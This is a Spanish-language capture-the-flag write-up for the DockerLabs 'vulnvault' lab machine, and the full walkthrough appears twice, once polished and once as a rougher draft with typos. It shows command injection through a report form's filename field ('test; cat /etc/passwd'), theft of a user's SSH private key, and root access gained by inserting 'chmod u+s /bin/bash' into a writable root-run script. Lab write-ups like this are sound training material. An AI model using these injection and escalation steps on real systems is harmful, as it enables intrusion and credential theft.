


**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Web` `Command Injection` `RCE` `SSH` `Bash` `ps aux` 

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip vulnvault.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh vulnvault.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
nmap -n -Pn -sCV -p80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-16 19:28 +0100
Nmap scan report for 172.17.0.2
Host is up (0.000023s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f5:4f:86:a5:d6:14:16:67:8a:8e:b6:b6:4a:1d:e7:1f (ECDSA)
|_  256 e6:86:46:85:03:d2:99:70:99:aa:70:53:40:5d:90:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Generador de Reportes - Centro de Operaciones
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.22 seconds
```

Identificamos los puertos `22` y `80` abiertos.

Accedemos al servicio web en el puerto `80` y nos encontramos con un generador de reportes.



Probamos a realizar una `inyección de comandos` en los campos de entrada utilizando el delimitador `;`.

```
Nombre del archivo: test; cat /etc/passwd
Fecha: test
```

Info:
```
Archivo de reporte: /var/www/html/reportes/reporte_1771266961.txt
Nombre: test\
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
samara:x:1001:1001:samara,,,:/home/samara:/bin/bash
Fecha: test
```

Confirmamos que la `inyección de comandos` funciona y detectamos un usuario en el sistema llamado `samara`.

Aprovechamos esta vulnerabilidad para intentar leer la `clave privada` id_rsa de dicho usuario y así conectarnos por `SSH`.

```
Nombre del archivo: test; cat /home/samara/.ssh/id_rsa
Fecha: test
```

Conseguimos visualizar la clave privada. 



Copiamos su contenido y lo guardamos en un archivo con nombre `id_rsa` en nuestra máquina atacante.

Le asignamos los permisos necesarios al archivo de la clave.

```Bash
chmod 600 id_rsa
```

Procedemos a autenticarnos por `SSH`.

```Bash
ssh -i id_rsa samara@172.17.0.2
```

## ESCALADA DE PRIVILEGIOS

Una vez dentro, listamos los `procesos` del sistema para ver si hay alguna tarea automatizada ejecutándose.

```Bash
ps aux
```

Info:
```
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  3.8  0.0   2808  1816 ?        Ss   19:27   0:31 /bin/sh -c service ssh start && service apache2 start && while true; do /bin/bash /usr/local/bin/echo.sh; done
root          14  0.0  0.0  12028  3988 ?        Ss   19:27   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root          32  0.0  0.5 203460 21672 ?        Ss   19:27   0:00 /usr/sbin/apache2 -k start
www-data      37  0.1  0.4 204136 18788 ?        S    19:27   0:01 /usr/sbin/apache2 -k start
www-data  112808  0.1  0.4 204128 18056 ?        S    19:29   0:01 /usr/sbin/apache2 -k start
www-data  112828  0.1  0.3 203960 12920 ?        S    19:29   0:01 /usr/sbin/apache2 -k start
www-data  112938  0.1  0.4 204136 17780 ?        S    19:29   0:00 /usr/sbin/apache2 -k start
www-data  113304  0.1  0.4 204128 18060 ?        S    19:29   0:00 /usr/sbin/apache2 -k start
www-data  113313  0.1  0.4 204128 18060 ?        S    19:29   0:00 /usr/sbin/apache2 -k start
www-data  113320  0.1  0.4 204128 18128 ?        S    19:29   0:00 /usr/sbin/apache2 -k start
www-data  113325  0.1  0.4 204128 18128 ?        S    19:29   0:00 /usr/sbin/apache2 -k start
www-data  135563  0.0  0.4 204128 18168 ?        S    19:30   0:00 /usr/sbin/apache2 -k start
www-data  135644  0.0  0.4 204120 18204 ?        S    19:30   0:00 /usr/sbin/apache2 -k start
root      797391  0.0  0.2  14452  8536 ?        Ss   19:40   0:00 sshd: samara [priv]
samara    799474  0.0  0.1  14712  6848 ?        S    19:40   0:00 sshd: samara@pts/0
samara    799534  0.0  0.1   5024  4232 pts/0    Ss   19:40   0:00 -bash
samara    894844  0.0  0.1   8288  4320 pts/0    R+   19:41   0:00 ps aux
```

Observamos un proceso interesante:

```
/bin/sh -c service ssh start && service apache2 start && while true; do /bin/bash /usr/local/bin/echo.sh; done
```

El usuario `root` está ejecutando constantemente el script `/usr/local/bin/echo.sh`. Procedemos a inspeccionar su contenido.

```Bash
cat echo.sh
```

```Bash
#!/bin/bash

echo "No tienes permitido estar aqui :(." > /home/samara/message.txt
```

Al comprobar que tenemos permisos de escritura sobre este archivo, lo modificamos para otorgar permisos `SUID` al binario `/bin/bash`.

```Bash
nano echo.sh
```

```Bash
#!/bin/bash
chmod u+s /bin/bash
echo "No tienes permitido estar aqui :(." > /home/samara/message.txt
```

Esperamos unos segundos a que el bucle se ejecute de nuevo y lanzamos una `bash` con privilegios.

```Bash
bash -p
```

Info:
```
bash-5.2# whoami
root
bash-5.2#
```

Ya somos root!

Obtenemos las `flags` de usuario y root:
```
bash-5.2# cat /root/root.txt 
640c89bbfa2f70a4038fd570c65d6dcc
bash-5.2# cat /home/samara/user.txt 
030208509edea7480a10b84baca3df3e
```


Intentamos inyeccion de comandos en las input boxes con el tipico semicolon.

```
Nombre del archivo: test; cat /etc/passwd
Fecha: test
```

La inyeccion de comandos funciona

Info:
```
Archivo de reporte: /var/www/html/reportes/reporte_1771266961.txt
Nombre: test\
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
samara:x:1001:1001:samara,,,:/home/samara:/bin/bash
Fecha: test
```

Vemos que hay un usuario samara.
Vamos a intentar obtener su clae privada para entrar por ssh

```
Nombre del archivo: test; cat /home/samara/.ssh/id_rsa
Fecha: test
```


Guardamos la clave en nuestra maquina atacante en un archivo con nombre id_rsa.
le damos los permisos necesarios.

```bash
chmod 600 id_rsa
```

Accedemos por SSH

```bash
ssh -i id_rsa samara@172.17.0.2
```

listamos prrocesos

```bash
ps aux
```

```
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  3.8  0.0   2808  1816 ?        Ss   19:27   0:31 /bin/sh -c service ssh start && service apache2 start && while true; do /bin/bash /usr/local/bin/echo.sh; done
root          14  0.0  0.0  12028  3988 ?        Ss   19:27   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root          32  0.0  0.5 203460 21672 ?        Ss   19:27   0:00 /usr/sbin/apache2 -k start
www-data      37  0.1  0.4 204136 18788 ?        S    19:27   0:01 /usr/sbin/apache2 -k start
www-data  112808  0.1  0.4 204128 18056 ?        S    19:29   0:01 /usr/sbin/apache2 -k start
www-data  112828  0.1  0.3 203960 12920 ?        S    19:29   0:01 /usr/sbin/apache2 -k start
www-data  112938  0.1  0.4 204136 17780 ?        S    19:29   0:00 /usr/sbin/apache2 -k start
www-data  113304  0.1  0.4 204128 18060 ?        S    19:29   0:00 /usr/sbin/apache2 -k start
www-data  113313  0.1  0.4 204128 18060 ?        S    19:29   0:00 /usr/sbin/apache2 -k start
www-data  113320  0.1  0.4 204128 18128 ?        S    19:29   0:00 /usr/sbin/apache2 -k start
www-data  113325  0.1  0.4 204128 18128 ?        S    19:29   0:00 /usr/sbin/apache2 -k start
www-data  135563  0.0  0.4 204128 18168 ?        S    19:30   0:00 /usr/sbin/apache2 -k start
www-data  135644  0.0  0.4 204120 18204 ?        S    19:30   0:00 /usr/sbin/apache2 -k start
root      797391  0.0  0.2  14452  8536 ?        Ss   19:40   0:00 sshd: samara [priv]
samara    799474  0.0  0.1  14712  6848 ?        S    19:40   0:00 sshd: samara@pts/0
samara    799534  0.0  0.1   5024  4232 pts/0    Ss   19:40   0:00 -bash
samara    894844  0.0  0.1   8288  4320 pts/0    R+   19:41   0:00 ps aux
```

Vemos que el archivo echo.sh en /usr/local/bin/ se esta ejecutando como root
vamos a /usr/local/bin/ y leemos el archivo.

```bash
cat echo.sh
```

```bash
#!/bin/bash

echo "No tienes permitido estar aqui :(." > /home/samara/message.txt
```

Vvamos a modificar el archivo para darr permisos SUID al binario /bin/bash y escalara a root.

```bash
nano echo.sh
```

```bash
#!/bin/bash
chmod u+s /bin/bash
echo "No tienes permitido estar aqui :(." > /home/samara/message.txt
```

esperamso unos segundos.

```bash
bash -p
```

```
bash-5.2# whoami
root
bash-5.2#
```

Obtenemos las flags de usuario y root

```
bash-5.2# cat /root/root.txt 
640c89bbfa2f70a4038fd570c65d6dcc
bash-5.2# cat /home/samara/user.txt 
030208509edea7480a10b84baca3df3e
```